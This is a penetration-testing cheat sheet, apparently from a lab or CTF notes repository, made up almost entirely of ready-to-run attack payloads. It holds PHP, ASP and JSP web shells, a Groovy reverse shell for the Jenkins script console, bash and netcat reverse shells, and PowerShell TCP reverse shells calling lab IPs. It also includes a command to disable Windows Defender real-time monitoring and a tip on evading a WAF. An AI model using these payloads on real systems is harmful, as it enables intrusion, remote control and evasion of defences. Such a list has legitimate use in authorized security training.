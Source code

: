 ! Use 443 port to evade WAF.

##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
https://github.com/Wh1ter0sEo4/reverse_shell_php/blob/main/reverse_shell.php

```php
<?php system($_REQUEST["cmd"]); ?>
```

##### Java:
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
```asp
<% eval request("cmd") %>
```

##### JSP:
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows

Disable AV to allow running shell from admin's powershell:

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



!